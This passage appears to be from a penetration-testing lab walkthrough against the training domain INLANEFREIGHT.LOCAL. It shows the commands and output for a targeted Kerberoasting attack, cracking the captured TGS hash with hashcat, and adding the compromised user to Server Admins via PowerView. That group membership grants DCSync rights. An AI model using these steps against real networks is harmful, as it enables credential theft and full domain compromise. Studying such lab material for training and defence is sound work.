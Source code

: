 ### 🎯 TGS Ticket Extraction
```bash
# Targeted Kerberoasting attack
proxychains GetUserSPNs.py -dc-ip 172.16.8.3 INLANEFREIGHT.LOCAL/mssqladm -request-user ttimmons

# Results:
ServicePrincipalName  Name      MemberOf  PasswordLastSet             LastLogon  Delegation 
--------------------  --------  --------  --------------------------  ---------  ----------
acmetesting/LEGIT     ttimmons            2022-06-01 14:32:18.194423  <never>               

# TGS ticket captured:
$krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/ttimmons*$[HASH_DATA]
```

### 🔐 Password Cracking
```bash
# Hashcat TGS cracking
hashcat -m 13100 ttimmons_tgs /usr/share/wordlists/rockyou.txt

# Successful crack:
ttimmons:[CRACKED_PASSWORD]

# Attack completion time:
Time.Started.....: Wed Jun 22 16:32:27 2022 (22 secs)
Status...........: Cracked
Progress.........: 10678272/14344385 (74.44%)
```

## 🔺 Server Admins Group Escalation

### 👥 Group Membership Manipulation
```powershell
# PSCredential object for ttimmons
$timpass = ConvertTo-SecureString '[CRACKED_PASSWORD]' -AsPlainText -Force
$timcreds = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\ttimmons', $timpass)

# Server Admins group addition
$group = Convert-NameToSid "Server Admins"
Add-DomainGroupMember -Identity $group -Members 'ttimmons' -Credential $timcreds -verbose

# Verification:
[*] Adding member 'ttimmons' to group 'S-1-5-21-2814148634-3729814499-1637837074-1622'
```

### 🎯 DCSync Privileges Inheritance
```cmd
# Server Admins group capabilities:
- GetChanges privilege (INLANEFREIGHT.LOCAL)
- GetChangesAll privilege (INLANEFREIGHT.LOCAL)
- DCSync attack capability
- Complete domain credential access

# BloodHound confirmation:
SERVER ADMINS → DCSync → INLANEFREIGHT.LOCAL domain
```
